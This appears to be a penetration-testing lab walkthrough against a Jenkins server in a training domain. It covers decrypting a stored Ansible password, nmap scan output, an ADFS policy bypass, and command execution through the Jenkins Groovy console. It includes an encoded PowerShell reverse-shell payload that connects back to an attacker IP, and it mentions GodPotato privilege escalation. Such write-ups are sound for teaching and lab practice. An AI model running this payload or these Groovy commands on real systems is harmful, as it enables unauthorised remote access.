```
┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> ls
Dev_Notes.txt  ansible_aes.key	ansible_passwd.txt

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $aesKey = Get-Content "./ansible_aes.key" 

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $encrypted = Get-Content "./ansible_passwd.txt"

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $decryptedSecureString = ConvertTo-SecureString -String $encrypted -Key $aesKey

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($decryptedSecureString)

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> $decryptedPlainText = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)                   

┌──(millycash㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/Ansible]
└─PS> echo $decryptedPlainText
6daDjIU0UqEdvGI
```

Same here NMAP shows that this is the Jenkins server?

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
443/tcp   open  ssl/http      syn-ack ttl 64 Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| ssl-cert: Subject: commonName=*.cyber.local
| Issuer: commonName=Cyber-CA/domainComponent=cyber
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-01-03T15:19:22
| Not valid after:  2026-01-02T15:19:22
| MD5:   c8e7:cf5a:37ad:00c2:d6e2:0272:6be5:d109
| SHA-1: a183:e7da:33e3:8c48:a7d7:49fa:1601:8e1c:8ab5:51bf
| -----BEGIN CERTIFICATE-----
| MIIEZzCCBA6gAwIBAgITJgAACXq0b89pnMqkgAAAAAAJejAKBggqhkjOPQQDAjBB
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFTATBgoJkiaJk/IsZAEZFgVjeWJlcjER
| MA8GA1UEAxMIQ3liZXItQ0EwHhcNMjQwMTAzMTUxOTIyWhcNMjYwMTAyMTUxOTIy
| WjAYMRYwFAYDVQQDDA0qLmN5YmVyLmxvY2FsMIIBIjANBgkqhkiG9w0BAQEFAAOC
| AQ8AMIIBCgKCAQEAr1Tb0A65vSJAHlh8HiKhsKn5ZCMVMZr2pERa0bimADv8SOfB
| lWBZfDlqYSOVXjYy+4uSDcd4S4pIZvD51YIprg+R873ywyoWGlfizyhAbKmum+PZ
| gdaJDsO3qUoQufWqQxkvTCFVQLIqKERykkBLRX/ra3IRj55+OJ3nn6ed497+CeyW
| uQAEJbvNfQxXr8vhVcMI/DtoJT/Yfw71BKZJt0OmetY8EsSr8NrN6MfMsXLZlNAN
| N5/8I9dv8HKRbQ1yoefymquUn/Xj3hPQkBda1lReyp1qa6+oAT7U4Q59bmwZK5np
| PX6SjcahIDkvw6NQN8LqI+E86oCN+AOFNHuASQIDAQABo4ICQTCCAj0wNgYJKwYB
| BAGCNxUHBCkwJwYfKwYBBAGCNxUIh7uVNJ+RM4aJjTiE1p1mgdXEI2kBIwIBZAIB
| ATATBgNVHSUEDDAKBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAwGwYJKwYBBAGC
| NxUKBA4wDDAKBggrBgEFBQcDATAdBgNVHQ4EFgQUUQ5/hgCLLa+o+T76vz5GirF/
| bdYwHwYDVR0jBBgwFoAUMQqjBPCHsx61oqXqqcLpYWOQrCIwgcMGA1UdHwSBuzCB
| uDCBtaCBsqCBr4aBrGxkYXA6Ly8vQ049Q3liZXItQ0EsQ049Y3lkYyxDTj1DRFAs
| Q049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmln
| dXJhdGlvbixEQz1jeWJlcixEQz1sb2NhbD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25M
| aXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgboGCCsG
| AQUFBwEBBIGtMIGqMIGnBggrBgEFBQcwAoaBmmxkYXA6Ly8vQ049Q3liZXItQ0Es
| Q049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9Y3liZXIsREM9bG9jYWw/Y0FDZXJ0aWZpY2F0ZT9i
| YXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwCgYIKoZIzj0E
| AwIDRwAwRAIgYdIi4YlAMNcTLOWV689N0GG7GQLjqzKfQgu0+IX2AjQCIF4AfTj4
| lVNnD0/FV5+kGYElwctprizNM7vKBmLD4tau
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-06-24T15:35:12+00:00; +4s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: D3V
|   NetBIOS_Domain_Name: D3V
|   NetBIOS_Computer_Name: D3WEBJW
|   DNS_Domain_Name: d3v.local
|   DNS_Computer_Name: d3webjw.d3v.local
|   DNS_Tree_Name: d3v.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-24T15:34:33+00:00
| ssl-cert: Subject: commonName=d3webjw.d3v.local
| Issuer: commonName=d3webjw.d3v.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-23T03:35:12
| Not valid after:  2024-12-23T03:35:12
| MD5:   867c:ba4e:5e89:33ee:ab0f:ea67:8146:a2e2
| SHA-1: 92d3:8161:6d93:7436:8519:b6c2:66d6:fa24:4042:479c
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQYptyIRZylq1I7+Uw1J/lxDANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFkM3dlYmp3LmQzdi5sb2NhbDAeFw0yNDA2MjMwMzM1MTJaFw0y
| NDEyMjMwMzM1MTJaMBwxGjAYBgNVBAMTEWQzd2ViancuZDN2LmxvY2FsMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAr76OUTpRc/1bu6RREARFcVH9JrCU
| jQN/eaZTDeIqLMux0lT9r2MopOnmM2/paVT7UJz5aIquOHBEyADjgNRN5yfGUXvP
| /GS5IQFBY05A7z2h4T8/sX9+yyMu2R+rLEPw2YcVfbqjFR5gEIbn+MBw+/ExcrbJ
| pflq1rKVRu+CmVCh8aZ6/AvMaNwJhP5dCguFFiDfA3dI1TUp9QJxTwyVfrzWgmnd
| FfcwW3wkg5J5v9g/UBHPU2nrRg5xzvMyq+Mrr6+4Xdk0k/xJyGY8MwbF1hOs7jhU
| 3z+EkvRZ9ZAIxGAZToCXEh2/Vr32kSknecpwwZ4dsaHQO906B8q1oNP7JwIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAGjVG2CqW36VakwMGcLscVGmYbGTWW8MoY3XrvgEJuWbK9xY02sI
| Ims+OEgdZvU9qmHJqSD9ChN8aTKJW9GS6Gb+CrjwfWhodbk7mJBF6YB220vFsPGS
| A9DGDobS/10JkBtFRIw1fFJirNCZzysbvUDpu+SLK+nkOWcQywcEPMeL92X8qKz5
| 7TPTkolxS8+7/gAqcQgT+AaN7F876+53d7BFhEjkbMq7ll+SxFYkeTnAtyMsyker
| Ek2nG6VoJnUSH+CQD7Q4CdpUYJCtBkyNOEVrDoBgnvW+vGNkQUAOl7L4RMfn+MtV
| C9A71Yn6w3lyJxNq8i4PAsViykiJ4eU7HHw=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/24%OT=135%CT=%CU=%PV=Y%G=N%TM=6679922C%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10B%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

&nbsp;

# \*\*Unintented\*\*

Another scenario involves the editing of the ADFS policy that allows only users from d3v.local to login. Snippet taken from adfs.cyber.local:


Adding cyber.local will allow users from devops, example Steven.Sanchez to login!

&nbsp;

# \*\*Intended way\*\*

With the James.Peck credentials we are elegible to login since he is part of DevOps@d3v.local and I guess I need to ask for a new certificate upon login!

So I will spin up my windows and generate a new cert:





And now I can import into my Vivaldi browser so I can pass the ADFS check.



And when i login i get to choose the right certificate now:



And ET voila we are in!



&nbsp;

# Pwning jenkins

Now We can see from "Managing Jenkins" that this build should be lower than **2.440.1**

****

Specifically for this version of build I see a possible LFI?



Seems like I get errors , and I guess I need to pass via ADFS which might be why i can't make this attack vector to work!

Now I remember that typically Jenikins have a built-in console that runs groovy scripts and can be used in some cases to gain rce!

https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script

And seems like it is active:



And sending this command we can get a command execution:

```
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```



Nice what is the user then that is running the Jenkins?



It's the service account for Jenkins and it holds the Impersonation priviledges which means we can use Godpotato.exe to PE to NTSystem.

But before that, if what we found so far is true we should be able to spawn back a shell?

```
def cmd = "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADEAMAAuADEAMAAiACwAOAAwADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=".execute();
println("${cmd.text}");
```



No success! I guess we need to do it in 2 steps! But before I notices some secrets in the working directory?



Can we read them?

